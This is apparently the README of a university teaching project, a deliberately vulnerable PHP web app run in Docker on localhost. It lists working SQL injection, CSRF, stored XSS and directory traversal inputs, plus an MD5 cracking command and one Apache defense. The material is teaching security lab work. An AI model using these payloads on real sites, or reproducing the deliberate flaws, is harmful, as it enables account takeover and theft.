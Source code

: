 # Base website security demo
- designed for students of [KIV/WEB](https://courseware.zcu.cz/portal/studium/courseware/kiv/web) of [University of West Bohemia](http://www.zcu.cz/en/)

## Presentation
[Slides from presentation](PRESENTATION.pdf)

## Development
### Installation
1. [Install Docker](https://docs.docker.com/install/)
1. [Install Docker Compose](https://docs.docker.com/compose/install/)
1. Clone this repository `git clone https://github.com/intraworlds/zcu-security-demo.git`
or download [ZIP file](https://github.com/intraworlds/zcu-security-demo/archive/master.zip)

### Run
1. run `docker-compose up` and you access the website
 - **app**: http://localhost:8088/
  - username: `willis.ritchie@example.com`
  - password: `richie`
 - **adminer**: http://localhost:8086/?server=mysql&username=admin&db=zcu_demo
  - password: `1234`

> Note: It'll take a minute to build docker container - be patient.

### Simulate attacks

#### SQL injection
- go to http://localhost:8088/?path=list&limit=50;update%20users%20set%20name=email,password=%27%242y%2410%24vXUP3XG34Nwezd8cEZm0XOLUN5jtDsF6tqpMg.PvFacpzKStHA2ze%27;
- refresh page
- observe that all users are named by its email and theirs password is `123`
- so now you can access any account and transfer a money

#### CSRF
- goto http://localhost:8088/?path=create&receiver=1&amount=1&desc=❤️&submit=create
- observe that 1 IW coin was transfered to user #1 without your consent

#### XSS (with CSRF)
- goto http://localhost:8088/?path=create
- create new transaction with following description
```html
❤️
<script>
fetch("/?path=create&receiver=1&amount=1&desc=❤️&submit=create");
</script>
```
- observe that now everybody who visits list of transactions will send a coin
to user #1 without consent

#### Directory traversal
try following URLs
- http://localhost:8088/docker-compose.yml
- http://localhost:8088/config/app.env
- http://localhost:8088/dumps/zcu_demo.sql

##### Defense
Adjust apache configuration
```
# denied all files
<RequireAll>
    Require all denied
</RequireAll>

# whitelist only *.php and other files
<FilesMatch "((^$)|(^.+\.(php|css|map|js)$))">
    Require all granted
</FilesMatch>
```


#### Weak hash algorithm
try use `hashcat`
```
php scripts/crack_md5_hash.php 75b71aa6842e450f12aca00fdf54c51d
```

### Docker tips
Show all running containers
```
docker-compose ps
```
See logs
```
docker-compose logs -f
```
Connect container
```
docker-compose exec apache bash -l
```

## attacks

- [Full list of attacks](https://www.owasp.org/index.php/Category:Attack)

### XSS (Cross-site Scripting)
 - [OWASP XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [OWASP testing for XSS](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)
 - [PHP triky: Cross Site Scripting](https://php.vrana.cz/cross-site-scripting.php) (czech only)

### HTTP Headers
 - [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
 - [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

### SQL injection
 - [OWASP SQL injection](https://www.owasp.org/index.php/SQL_Injection)
 - [Soom: SQL Injection (Full Paper)](https://www.soom.cz/clanky/1180--SQL-Injection-Full-Paper#sekce5) (czech only)
 - [PHP triky: Obrana proti SQL Injection](https://php.vrana.cz/obrana-proti-sql-injection.php) (czech only)

### CSFR (Cross-Site Request Forgery)
 - [OWASP CSFR](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
 - [Soom](https://www.soom.cz/clanky/484--Cross-Site-Request-Forgery) (czech only)
 - [PHP triky: Cross-Site Request Forgery](https://php.vrana.cz/cross-site-request-forgery.php) (czech only)
 - [Co je Cross-Site Request Forgery a jak se mu bránit](https://www.zdrojak.cz/clanky/co-je-cross-site-request-forgery-a-jak-se-branit/) (czech only)

### Path (Directory) Traversal
 - [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### Others
 - [Self tweeting tweet](https://twitter.com/derGeruhn/status/476764918763749376)
